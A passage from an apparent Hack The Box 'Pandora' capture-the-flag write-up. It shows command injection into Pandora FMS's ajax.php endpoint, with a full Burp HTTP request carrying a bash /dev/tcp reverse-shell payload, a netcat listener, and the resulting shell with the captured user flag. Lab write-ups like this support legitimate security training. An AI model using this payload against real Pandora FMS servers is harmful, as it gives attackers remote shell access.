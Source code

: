 Fire up burpsuite, and set up the proxy.

Then navigate to left menu -> Events > View events
you will see a POST request to `/pandora_console/ajax.php`, send it to the repeater, according to the CVE, we can inject a reverse shell with the page param

```
POST /pandora_console/ajax.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Length: 78
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.67 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://127.0.0.1:9001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:9001/pandora_console/index.php?sec=workspace&sec2=operation/users/user_edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
Connection: close


page=include/ajax/events&perform_event_response=10000000&target=bash -i >%26 /dev/tcp/IP/9090 0>%261&response_id=1
```
you'll have to tweak it a bit to get it to work, like this:

```
bash+-c+"bash+-i+>%26+/dev/tcp/IP/9090+0>%261"&response_id=1
```
Setup a listener then POST the request, you'll end up with **matt** reverse shell!
``` bash
rlwrap nc -lvnp 9090                                            ✔  01:17:40 PM  
Connection from 10.10.11.136:36016
bash: cannot set terminal process group (24702): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/home/matt$ cd ~ && cat user.txt
cd ~ && cat user.txt
53badf9c401fe17227c8a2b015baaaeb
```

Well we are in and we've got the user flag

For now stablize a shell or setup a ssh connection.

## PE
